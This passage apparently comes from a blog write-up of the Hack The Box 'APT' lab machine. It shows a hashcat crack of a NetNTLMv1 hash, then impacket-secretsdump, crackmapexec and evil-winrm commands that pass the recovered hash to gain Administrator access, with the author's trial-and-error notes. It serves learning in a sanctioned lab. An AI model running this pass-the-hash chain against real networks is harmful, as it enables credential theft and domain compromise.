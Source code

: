 > **Pass the hash** (**PtH**) is a type of cybersecurity attack in which an adversary steals a “hashed” user credential and uses it to create a new user session on the same network.

```bash
echo "95ACA8C7248774CB:1122334455667788" >> 14000.hash
echo "427E1AE5B8D5CE68:1122334455667788" >> 14000.hash
hashcat -m 14000 -a 3 -1 /usr/share/hashcat/charsets/DES_full.charset --hex-charset 14000.hash ?1?1?1?1?1?1?1?1
#   --> Invalid hex character detected in mask /usr/share/hashcat/charsets/DES_full.charset     :(

hashcat -m 14000 -a 3 -1 /usr/share/hashcat/charsets/DES_full.hcchr --hex-charset 14000.hash ?1?1?1?1?1?1?1?1  # :)
# --> Key: d167c3238864b12f5f82feae86a7f798

impacket-secretsdump --help
#   --> Performs various techniques to dump secrets from the remote machine without executing any agent there.
#   --> hashes LMHASH:NTHASH               NTLM hashes, format is LMHASH:NTHASH

impacket-secretsdump -hashes :d167c3238864b12f5f82feae86a7f798 'apt/APT$@htb.local'       # :(
impacket-secretsdump -hashes :d167c3238864b12f5f82feae86a7f798 'apt/APT$@apt'             # :(
#   --> target:  [[domain/]username[:password]@]<targetName or address>    <-- Remember 
impacket-secretsdump -hashes :d167c3238864b12f5f82feae86a7f798 'htb.local/APT$@apt'       # :)

crackmapexec smb apt -u 'Administrator' -H 'c370bddf384a691d811ff3495e8a72e2'
crackmapexec winrm apt -u 'Administrator' -H 'c370bddf384a691d811ff3495e8a72e2'
evil-winrm -i apt -u 'Administrator' -H 'c370bddf384a691d811ff3495e8a72e2'

whoami
#   --> htb\administrator
```

<br />
<img src="{{ site.img_path }}/apt_writeup/APT_78.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/apt_writeup/APT_79.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/apt_writeup/APT_80.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

> It is incredible that not long ago I did not allow myself to hack **Windows** machines, due to my total ignorance of the handling of this **Operating System**, and with the passage of time and with each **[Hack The Box](https://www.hackthebox.com){:target="_blank"}** that I am doing I like much more to face this kind of challenges. I will continue a couple more boxes and then pivot back to a **Linux** machine or perhaps other types of challenges, such as **Cloud** or **Mobile**, but always practicing and assimilating new concepts, hacking never rests. **I must kill the box**.

<br /><br />
<img src="{{ site.img_path }}/apt_writeup/APT_81.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
